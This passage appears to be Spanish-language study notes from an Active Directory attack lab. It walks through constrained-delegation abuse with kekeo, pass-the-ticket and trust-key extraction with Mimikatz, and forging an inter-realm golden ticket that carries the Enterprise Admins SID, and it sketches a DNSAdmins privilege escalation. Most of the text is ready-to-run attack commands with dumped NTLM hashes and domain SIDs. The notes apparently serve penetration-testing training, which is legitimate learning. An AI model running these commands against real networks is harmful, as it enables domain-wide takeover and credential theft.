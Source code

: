 Usamos el TGT para pedir un TGS del otro servidor, desde kekeo:
..* `tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL`
--------------
..* `tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:host/dcorp-mssql.dollarcorp.moneycorp.LOCAL|rpcss/dcorp-mssql.dollarcorp.moneycorp.LOCAL`
..* `tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:host/dcorp-mssql.dollarcorp.moneycorp.LOCAL|rpcss/dcorp-mssql.dollarcorp.moneycorp.LOCAL`

TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_websvc@DOLLARCORP.MONEYCORP.LOCAL.kirbi

Lanzamos Mimikatz:
..* `Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'`
..* `Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_websvc~dcorp-mssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'`
Ya podemos ejecutar comandos como administartor en el mssql
..* `ls \\dcorp-mssql.dollarcorp.moneycorp.LOCAL\c$`
¿que más se puede hacer?

PivEsc DNSAdmins
------------------
Si conseguimos un usuario que esté en el grupo de administradores de los DNS y tiene la capacidad de reinicar el servicio (no por defecto) podremos inyectar una dll que nos permitira acceso como system en el DC.
Enumeramos usuarios del grupo:
..* `Get-NetGroupMember -GroupName "DNSAdmins"`  -> srvadmin (a98e18228819e8eec3dfa33cb68b0728)
..* `Get-ADGroupMember -Identity DNSAdmins`
Pash the hash del usuario con....

Enterprise admin
------------------------
Los dominios en el mismo bosque tienen por defecto asiganad una confianza de doble via. Hay una clave de confianza "trust key" que permite esa confianza.
Nos hace falta el hash de krbtgt.
Cuando el usuario pide un ticket TGS de un servicio de otro dominio, el DC de su dominio genera un ticket "inter-realm TGT" cifrado con la trust key, con ese ticket el usuario puede pedir el TGS al nuevo dominio.
Para conseguir la trust key:
..* `Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc` --> [  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL 80ff2eed78d20a9de79b7ddfcc45c526
o 
..* `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'` --> saca el hash ntlm del trust key --> 80ff2eed78d20a9de79b7ddfcc45c526

Creamos un inter-realm TGT con:
..* `Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:80ff2eed78d20a9de79b7ddfcc45c526 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\kekeo_old\trust_tkt.kirbi"' ` 
..** sid: sid del dominio actual
..** sids: sid del grupo de enterprais admins en el dominio padre --> S-1-5-21-280534878-1496970234-700767426-519
..** user: usuario a impersonar
..** rc4: hash del trust key --> 
..** taget: FQDN del dominio padre	
..** ticket: ticket de salida
